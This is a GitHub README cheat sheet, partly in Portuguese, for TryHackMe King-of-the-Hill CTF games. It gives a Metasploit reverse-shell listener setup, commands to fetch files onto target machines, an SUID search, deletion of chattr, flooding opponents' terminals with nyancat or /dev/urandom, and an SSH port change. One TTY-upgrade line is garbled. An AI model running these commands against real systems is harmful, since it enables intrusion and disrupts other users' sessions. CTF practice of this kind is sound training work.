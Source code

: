                                                    <Tricks-For-All-Things>

# se você precisa (com certeza vai) instalar o "chattr" em uma máquina aqui vai um presente:

```
https://github.com/Machinh/Koth-THM/blob/main/Files/Chattr/Best-Chattr.md
```

# se você deseja criar um servidor web simples em python (geralmente para baixar ou instalar algo de máquina para máquina):
```
python3 -m http.server <port>
```

# Se você precisar ver protas abertas:

```
netstat -anpt
```

# Download files using php:

```
php -r "copy('https://endereco.com/arquivo.txt','nome_do_arquivo_na_maquina.txt');"

```

```
# receive connections by metasploit:
```
```
use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST 127.0.0.1
set LPORT 8080
set ExitOnSession false
exploit -j
```

# if you need to install python without root:
```
wget https://www.python.org/ftp/python/3.9.9/Python-3.9.9.tgz
```
```
tar -zxvf Python-3.9.9.tgz
cd Python-3.9.9.tgz
mkdir ~/.localpython
./configure --prefix=/home/$(whoami)/.localpython
make;make install
```

# a fully tty shell:

```
python3 -c"pkill -9 -t pts/ 'import pty;pty.spawn("/bin/bash")'

"ctrl + z"

stty raw -echo && fg

aperte "enter" novamente

export TERM=xterm-256color
```

# Search Suid's:
```
find / -perm -u=s -ls 2>/dev/null > /tmp/.find &
```

# delete chattr:
```
rm -rf /usr/bin/chattr
  ```
# Find Flags:
```
find / -name flags

# Nyan-cat:
git clone https://github.com/klange/nyancat
cd nyancat/src
make
## Sending Nyancat to machine:
python -m SimpleHTTPServer 80 # on your local machine

wget http://yourip/nyancat # on the KOTH machine

chmod +x nyancat

./nyancat > /dev/pts/#  < here where is the # you will place the enemy PTS
```
# Breaking pts by sending spam from urandom
```
cat /dev/urandom > /dev/pts/#
```
# Changing the ssh port:
```
nano /etc/ssh/sshd_config

Include /etc/ssh/sshd_config.d/*.conf

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
by default the SSH port is port 22, but you can change this port for example
Include /etc/ssh/sshd_config.d/*.conf

Port 55999
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
service sshd restart
```
//and ready after restarting the SSH service the SSH port will be at 55999
